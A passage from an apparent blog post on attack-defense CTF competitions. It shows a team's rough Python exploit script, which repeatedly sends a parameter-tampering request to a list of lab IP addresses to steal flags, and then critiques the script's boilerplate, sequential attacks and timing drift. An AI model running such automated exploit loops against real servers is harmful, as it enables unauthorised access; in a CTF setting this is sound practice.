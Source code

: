 Throughout the competition, you will likely write lots of code that is far from perfect and is intended for single-use, with the sole criterion being: *it just needs to work*. At least that's what I say before showing my code from a CTF to someone.

With that being said, this is how our exploit scripts looked like:

```python
from submit import submit_all

def main():
    flags = []

    targets = [
        '10.0.0.2',
        # '10.0.0.4',
        '10.0.0.5',
        '10.0.0.6',
        '10.0.0.7',
        '10.0.0.8',
        '10.0.0.9',
        '10.0.0.10',
        '10.0.0.11'
    ]

    for target in targets:
        flag = requests.get(f"http://{target}:5555/search?admin=true;flag=destee").text.split("Flag: ")[1].strip()
        print("Found flag", target, flag)
        flags.append(flag)
    
    submit_all(flags)


if __name__ == "__main__":
    while True:
        try:
            main()
        except Exception:
            pass
        time.sleep(80)
```

Here are some problems with this code:

- **Lots of boilerplate code**: The only part that is actually about the exploit is inside the `for target in targets` loop. We had to copy-paste everything, and place our actual exploit code in between.
- **Attacking teams sequentially**: We ran exploits target by target, which is a pure waste of time. When a request timed out during an attack on some team, our script would wait instead of moving on to the other teams. Sometimes we would just remove the targets that caused timeouts or errors, like we did with `10.0.0.4` in the script above.
- **Time drift**: The tick length was 80 seconds, so we just called `time.sleep(80)` after the attacks complete to wait for the next run. Since our attacks took some amount of time to complete, the interval was not precisely 80 seconds, but rather 80 seconds plus the time taken by the attacks. This resulted in a time drift on some of our exploits, making them run too late and miss some flags.
- Other problems related to exception handling, efficiency, CPU and memory usage, etc.
